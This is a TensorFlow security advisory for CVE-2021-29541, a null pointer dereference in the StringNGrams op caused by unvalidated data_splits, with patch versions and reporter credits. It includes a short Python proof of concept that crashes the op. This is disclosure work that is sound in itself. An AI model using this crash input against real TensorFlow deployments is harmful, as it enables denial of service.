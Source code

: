 ## TFSA-2021-030: Null pointer dereference in `StringNGrams`

### CVE Number
CVE-2021-29541

### Impact
An attacker can trigger a dereference of a null pointer in
`tf.raw_ops.StringNGrams`:

```python
import tensorflow as tf

data=tf.constant([''] * 11, shape=[11], dtype=tf.string)

splits = [0]*115
splits.append(3)
data_splits=tf.constant(splits, shape=[116], dtype=tf.int64)

tf.raw_ops.StringNGrams(data=data, data_splits=data_splits, separator=b'Ss',
                        ngram_widths=[7,6,11],
                        left_pad='ABCDE', right_pad=b'ZYXWVU',
                        pad_width=50, preserve_short_sequences=True)
```

This is because the
[implementation](https://github.com/galeone/tensorflow/blob/1cdd4da14282210cc759e468d9781741ac7d01bf/tensorflow/core/kernels/string_ngrams_op.cc#L67-L74)
does not fully validate the `data_splits` argument. This would result in
[`ngrams_data`](https://github.com/galeone/tensorflow/blob/1cdd4da14282210cc759e468d9781741ac7d01bf/tensorflow/core/kernels/string_ngrams_op.cc#L106-L110)
to be a null pointer when the output would be computed to have 0 or negative
size.

Later writes to the output tensor would then cause a null pointer dereference.

### Patches
We have patched the issue in GitHub commit
[ba424dd8f16f7110eea526a8086f1a155f14f22b](https://github.com/galeone/tensorflow/commit/ba424dd8f16f7110eea526a8086f1a155f14f22b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.

